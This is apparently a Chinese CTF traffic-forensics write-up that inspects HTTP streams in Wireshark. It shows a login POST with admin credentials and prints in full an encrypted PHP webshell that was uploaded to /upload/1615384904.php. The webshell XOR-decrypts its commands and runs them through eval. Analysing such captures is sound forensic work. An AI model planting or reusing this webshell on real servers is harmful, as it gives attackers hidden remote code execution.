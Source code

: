 - `File -> Export Objects -> HTTP`

![yPQAJtCO2LIVT8W.png](https://image.yjs2635.xyz/images/2022/02/20/yPQAJtCO2LIVT8W.png)

导出几个出来看看，得到一些数据库的信息：

![j7mBCryiQ1SONfh.png](https://image.yjs2635.xyz/images/2022/02/20/j7mBCryiQ1SONfh.png)

往下就是`Login.php POST包`登录成功的信息：
```bash
POST /login.php HTTP/1.1
···
username=admin&password=mysql&button=SIGN-IN
HTTP/1.1 302 Found
Location: ./admin/index.php
```
接着往下，获取到了一些有用的信息，流量显示`Upload.php`Post上传成功了一个php马：
```php
<?php
    session_start();
    @set_time_limit(0);
	@error_reporting(0);
    function E($D,$K){
        for($i=0;$i<strlen($D);$i++) {
            $D[$i] = $D[$i]^$K[$i+1&15];
        }# E函数为异或加密
        return $D;
    }
    function Q($D){
        return base64_encode($D);
    }# Q函数为base64编码
    function O($D){
        return base64_decode($D);
    }# O函数为base64解码
    $P='pass'; # 木马连接参数
    $V='payload'; # 执行载荷
    $T='3c6e0b8a9c15224a'; # 加密密钥
    if (isset($_POST[$P])){
        $F=O(E(O($_POST[$P]),$T));
        if (isset($_SESSION[$V])){
            $L=$_SESSION[$V];
            $A=explode('|',$L);
            class C{public function nvoke($p) {eval($p."");}}
            $R=new C();
			$R->nvoke($A[0]);
            echo substr(md5($P.$T),0,16);
            echo Q(E(@run($F),$T));
            echo substr(md5($P.$T),16);
        }else{
            $_SESSION[$V]=$F;
        }
    }
#/upload/1615384904.php 上传成功，为1615384904.php
```
- 那么我们只需要关注`1615384904.php`攻击者操作木马进行了哪些操作就好；全部导出，操作流量全加密类似请求POST：
